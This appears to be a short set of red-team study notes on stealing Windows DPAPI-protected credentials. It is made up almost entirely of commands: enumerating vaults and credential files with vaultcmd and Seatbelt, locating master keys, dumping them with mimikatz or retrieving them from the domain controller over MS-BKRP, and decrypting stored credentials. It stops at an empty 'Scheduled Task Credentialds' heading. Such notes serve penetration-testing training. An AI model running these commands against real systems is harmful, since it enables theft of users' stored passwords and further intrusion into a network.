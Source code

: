# DPAPI Notes

**Credential Manager**


To enumerate a user's vaults, you can use the native vaultcmd tool.
```
run vaultcmd /list
```

Another is to use Seatbelt 
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

The encrypted credentials themselves are stored in the users' "Credentials" directory.
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials
```

Seatbelt can also enumerate them using the WindowsCredentialFiles parameter
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory
```
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\
```

To decrypt
```
mimikatz !sekurlsa::dpapi
```
Another way to obtain the master key (which does not require elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).  
```
mimikatz dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<master key> /rpc
```

Now get the decryption
```
mimikatz dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<credential> /masterkey:<masterkey>
```

**Scheduled Task Credentialds**
